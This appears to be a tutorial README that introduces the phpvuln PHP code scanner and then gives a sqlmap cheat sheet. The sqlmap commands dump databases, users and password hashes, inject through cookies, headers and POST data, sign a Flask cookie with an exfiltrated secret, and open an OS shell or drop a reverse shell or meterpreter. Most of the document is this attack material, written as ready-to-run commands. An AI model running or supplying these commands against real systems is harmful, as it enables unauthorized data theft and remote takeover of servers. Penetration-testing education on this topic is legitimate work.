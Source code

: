 # phpvuln - sqlmaps - finding vulnerabilities in php code

Hi, I'm Carl Vincent Reyno, a security researcher at HackerOne. I'm going to discuss how to find vulnerabilities in php code and how sqlmap works.

So, According to the Zend (2023), A PHP vulnerability is an exploitable flaw in a PHP application that can be used to gain unauthorized access to systems that comprise or underlie that PHP application.

<b>Here's the dependencies on how to execute this in python3 pre-installed in your computer. 

Let’s install it by using the following command: </b>

```python
apt install python3
```

<b> Installing the PHP  </b>

```python
git clone https://github.com/ecriminal/phpvuln.git
cd phpvuln/
python3 phpvuln.py -h
```

<b> Getting the vulnerability list </b>
<br>
Here you can see the list of many types of vulnerabilities that you can identify in php code with the help of this tool.
```python
python3 phpvuln.py --list-vuln
```

<b> Find Vulnerability </b>
<br>
As you may have come to know about this tool why developers have created this tool. All we have to do is give the path of the php project that we want to investigate and it will identify all the vulnerability by itself.

```python
! python3 phpvuln.py -p < your path of php code >
```
```python
python3 phpvuln.py -p .../.../Desktop/bWAPP/
```

Also you can use the following command if you want to find a specific vulnerability in PHP code.

```python
! python3 phpvuln.py -p < your path of php code > -v < vuln name >
```

```python
python3 phpvuln.py -p /.../.../Desktop/bWAPP/ -v rfi
```
Thus, you can use all the features of this tool one by one and benefit by finding significant vulnerabilities in php code.
<br>
 For the sqlmaps, we discuss on how php vuln works in the system using linux. Now we need to know how sqlmaps work
<br>

Here are the commands from `Generic.py` to generate basic arguments for sqlmap and to get a general idea about the topic:
```python
-u "<URL>" 
-p "<PARAM TO TEST>" 
--user-agent=SQLMAP 
--random-agent 
--threads=10 
--risk=3 #MAX
--level=5 #MAX
--dbms="<KNOWN DB TECH>" 
--os="<OS>"
--technique="UB" #Use only techniques UNION and BLIND in that order (default "BEUSTQ")
--batch #Non interactive mode, usually Sqlmap will ask you questions, this accepts the default answers
--auth-type="<AUTH>" #HTTP authentication type (Basic, Digest, NTLM or PKI)
--auth-cred="<AUTH>" #HTTP authentication credentials (name:password)
--proxy=http://127.0.0.1:8080
--union-char "GsFRts2" #Help sqlmap identify union SQLi techniques with a weird union char
```

We are retrieving information from the sqlmaps:
<br>

<b>Retrieve Information</b>
<br>

<b>Internal</b>
```python
--current-user #Get current user
--is-dba #Check if current user is Admin
--hostname #Get hostname
--users #Get usernames od DB
--passwords #Get passwords of users in DB
--privileges #Get privileges
```
<b>First database data</b>
<br>

```python
--all #Retrieve everything
--dump #Dump DBMS database table entries
--dbs #Names of the available databases
--tables #Tables of a database ( -D <DB NAME> )
--columns #Columns of a table  ( -D <DB NAME> -T <TABLE NAME> )
-D <DB NAME> -T <TABLE NAME> -C <COLUMN NAME> #Dump column
```

We are now creating a SQL Injection Place:

<b> ZAP/BURP Suite Configuration # </b>
```python
sqlmap -r req.txt --current-user
-
```
<b> Getting a Request Rejection # </b>
```python
sqlmap -u "http://example.com/?id=1" -p id
sqlmap -u "http://example.com/?id=*" -p id
```
<b> Posting a Request Rejection # </b>
```python
sqlmap -u "http://example.com" --data "username=*&password=*"
```

<b> Inserting some Injections in Headers and Other HTTP Methods # </b>
```python
#Inside cookie
sqlmap  -u "http://example.com" --cookie "mycookies=*"

#Inside some header
sqlmap -u "http://example.com" --headers="x-forwarded-for:127.0.0.1*"
sqlmap -u "http://example.com" --headers="referer:*"

#PUT Method
sqlmap --method=PUT -u "http://example.com" --headers="referer:*"

#The injection is located at the '*'
```

<b> Indicating if the string is successfully injected in the Headers # </b>
```python
--string="string_showed_when_TRUE" 
```


Sqlmap supports the usage of -e or --eval to process each payload before delivering it with a oneliner in Python. This makes customizing the payload before sending it very simple and quick. In the following example, flask signs the flask cookie session with the known secret before transmitting it:

```python
sqlmap http://1.1.1.1/sqli --eval "from flask_unsign import session as s; session = s.sign({'uid': session}, secret='SecretExfilratedFromTheMachine')" --cookie="session=*" --dump
```

<b> Implementing Shell Unix in Linux # </b>
```python
#Exec command
python sqlmap.py -u "http://example.com/?id=1" -p id --os-cmd whoami

#Simple Shell
python sqlmap.py -u "http://example.com/?id=1" -p id --os-shell

#Dropping a reverse-shell / meterpreter
python sqlmap.py -u "http://example.com/?id=1" -p id --os-pwn
```
<b> Auto-Exploiting with SQLMap # </b>
```python
sqlmap -u "http://example.com/" --crawl=1 --random-agent --batch --forms --threads=5 --level=5 --risk=3

--batch = non interactive mode, usually Sqlmap will ask you questions, this accepts the default answers
--crawl = how deep you want to crawl a site
--forms = Parse and test forms
```
